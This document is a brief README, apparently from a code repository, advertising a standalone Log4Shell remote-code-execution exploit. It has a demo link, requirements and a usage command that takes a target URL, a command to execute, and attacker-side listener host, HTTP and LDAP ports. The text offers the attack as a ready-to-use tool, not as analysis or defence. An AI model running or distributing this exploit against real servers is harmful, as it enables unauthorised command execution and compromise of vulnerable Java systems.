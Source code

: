 ## Log4Shell RCE Exploit - fully independent exploit does not require any 3rd party libs.

[![asciicast](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj.svg)](https://asciinema.org/a/BSuuPRF6HXTe8rgReFmFIzvtj)

### Usage
```shell
python main.py -i lhost -u http://target:targetport -c "command_to_execute" -p lhttp_port -l lldap_port
 ```


### Requirements 
- java-8-openjdk
- pip install -r requirements.txt
- python3.6+




